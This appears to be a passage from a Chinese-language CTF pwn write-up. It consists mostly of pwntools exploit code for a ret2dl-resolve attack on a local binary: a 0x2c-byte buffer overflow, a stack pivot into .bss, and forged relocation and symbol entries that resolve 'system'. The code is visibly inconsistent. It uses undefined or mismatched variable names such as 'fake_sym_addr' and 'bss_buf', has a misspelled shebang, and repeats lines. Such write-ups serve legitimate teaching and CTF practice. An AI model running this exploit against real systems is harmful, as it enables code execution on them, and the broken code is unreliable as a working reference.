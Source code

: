 ```
plt0 = elf.get_section_by_name('.plt').header.sh_addr
rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
dynstr = elf.get_section_by_name('.dynstr').header.sh_addr
# pwntool 真是个好方便的工具

# 这里我们确定bss段+0x800作为我们的可控开始地址 也就是虚假的dynsym表的地址
stack_size = 0x800
control_base = bss_buf + stack_size

#伪造一个虚假的dynsym表项的地址
alarm_got = elf.got['alarm']
fake_dynsym_addr = control_base + 0x24
align = 0x10 - ((fake_sym_addr - dynsym) &amp; 0xf)
fake_dynsym_addr += align
# 这里要对齐16字节,要不然函数解析的时候会出错,

index_sym = (fake_dynsym_addr - dynsym) / 0x10
rel_r_info = index_sym &lt;&lt; 8 | 7
fake_rel = p32(alarm_got)+p32(r_info)  # 伪造的rel结构

st_name=fake_dynsym_addr+0x10-dynstr
# 取fake_dynsym_addr+0x10 作为'system\x00'的地址,求出偏移付给st_name
# 伪造.syndym表的表项
fake_elf32_sym=p32(st_name)+p32(0)+p32(0)+p32(0x12)

rep_plt_offset = control_base + 24 - rel_plt
# 这里就是我们构造一个很大offset然后让他指向我们的bss段
```

接着我们开始构造rop

```
#!/use/bin/python
# -*- coding:utf-8 -*-

import sys
import roputils
from pwn import *

context.log_level = 'debug'
context(arch='i386', os='linux')
context.terminal = ['/usr/bin/tmux', 'splitw', '-h']

elf = ELF('./pwn')
io = process('./pwn')
rop = ROP('./pwn')
gdb.attach(io)
pause()
addr_bss = elf.bss()
# 这里我们确定bss段+0x800作为我们的可控开始地址 也就是虚假的dynsym表的地址
stack_size = 0x800
control_base = addr_bss + stack_size
# 溢出
rop.raw('A'*0x2c)
# call read(0, control_base, 100)
rop.read(0, control_base, 100)
rop.migrate(control_base)
# 将栈迁移到bss段
io.sendline(rop.chain())

plt0 = elf.get_section_by_name('.plt').header.sh_addr
rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
```